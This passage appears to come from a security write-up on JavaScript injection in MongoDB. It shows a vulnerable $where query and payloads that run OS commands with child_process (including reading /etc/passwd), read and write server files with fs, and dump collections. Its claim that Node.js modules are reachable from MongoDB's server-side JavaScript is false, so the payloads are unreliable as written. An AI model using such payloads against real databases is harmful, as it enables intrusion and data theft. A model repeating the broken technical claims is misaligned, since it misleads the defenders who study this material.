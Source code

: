     ```javascript
    // Vulnerable example (do NOT use in production)
    db.collection.find({ $where: "this.name == '" + userInput + "'" })
    ```

    An attacker could inject JavaScript code instead of a name, for example:

    ```javascript
    '; return process.mainModule.require('child_process').execSync('whoami').toString(); //
    ```

*   **Aggregation Pipeline Operators:** Certain aggregation pipeline operators, such as `$accumulator`, `$function`, and `$expr` (in some contexts), can also execute JavaScript functions.  These operators, if used with unsanitized user input, can become injection points.

    *   **`$accumulator` with `init`, `accumulate`, `merge`, `finalize`:** These stages can accept JavaScript functions.
    *   **`$function` (MongoDB 4.4+):** Explicitly designed to execute JavaScript functions within the aggregation pipeline.
    *   **`$expr` (in limited contexts):** While primarily for expressions, certain uses might involve JavaScript evaluation depending on the MongoDB version and configuration.

**Example Payloads and Malicious Actions:**

Once JavaScript injection is achieved, attackers can perform a wide range of malicious actions, limited only by the permissions of the MongoDB server process and the capabilities of the JavaScript environment.

*   **Operating System Command Execution:** Using Node.js modules available in the MongoDB server environment (like `child_process`), attackers can execute arbitrary operating system commands.

    ```javascript
    // Execute 'whoami' command
    process.mainModule.require('child_process').execSync('whoami').toString()

    // Execute 'cat /etc/passwd' to read sensitive files
    process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()
    ```

*   **File System Access:** Attackers can read, write, and delete files on the server's file system, potentially accessing sensitive configuration files, application code, or other data.

    ```javascript
    // Read file content
    fs = process.mainModule.require('fs');
    fs.readFileSync('/path/to/sensitive/file', 'utf8')

    // Write to a file
    fs = process.mainModule.require('fs');
    fs.writeFileSync('/tmp/evil.txt', 'attacker controlled content');
    ```

*   **Data Exfiltration:** Attackers can access and exfiltrate data from the MongoDB database itself or from other systems accessible from the MongoDB server.

    ```javascript
    // Access MongoDB collections and data
    db.collection('sensitiveData').find().toArray()
